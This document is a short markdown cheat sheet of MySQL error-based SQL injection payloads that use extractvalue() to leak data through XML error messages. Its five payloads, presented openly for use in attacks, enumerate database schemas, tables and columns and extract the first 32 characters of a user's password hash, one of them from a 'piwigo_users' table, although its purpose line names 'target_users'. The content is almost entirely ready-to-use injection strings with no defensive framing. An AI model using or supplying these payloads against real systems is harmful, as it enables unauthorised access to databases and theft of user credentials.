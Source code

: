 
# SQL Injection Commands Using `extractvalue()` for Data Exfiltration

These commands use MySQL's `extractvalue()` function to leak data through XML error messages. This technique is useful when other output methods are blocked during SQL injection attacks.

---

## 1. List All Database Schemas

```sql
extractvalue('', concat('>', (
  select group_concat(table_schema) 
  from (
    select table_schema 
    from information_schema.tables 
    group by table_schema
  ) as foo
)))
```

**Purpose**: Retrieve all database names on the server.

---

## 2. List All Tables in the `target` Database

```sql
extractvalue('', concat('>', (
  select group_concat(table_name) 
  from (
    select table_name 
    from information_schema.tables 
    where table_schema='target'
  ) as foo
)))
```

**Purpose**: Enumerate all tables in the `target` database.

---

## 3. Paginated Table Names in `target` (Limit + Offset)

```sql
extractvalue('', concat('>', (
  select group_concat(table_name) 
  from (
    select table_name 
    from information_schema.tables 
    where table_schema='target' 
    limit 2 offset 32
  ) as foo
)))
```

**Purpose**: Retrieve 2 table names starting from the 33rd entry in the `target` database (pagination).

---

## 4. List Columns in the `target_users` Table

```sql
extractvalue('', concat('>', (
  select group_concat(column_name) 
  from (
    select column_name 
    from information_schema.columns 
    where table_schema='target' 
      and table_name='target_users'
  ) as foo
)))
```

**Purpose**: List column names in the `target_users` table.

---

## 5. Extract First 32 Characters of First User Password

```sql
extractvalue('', concat('>', (
  select substring(password, 1, 32) 
  from piwigo_users 
  limit 1 offset 0
)))
```

**Purpose**: Leak the first 32 characters of the password for the first user in the `target_users` table.

---
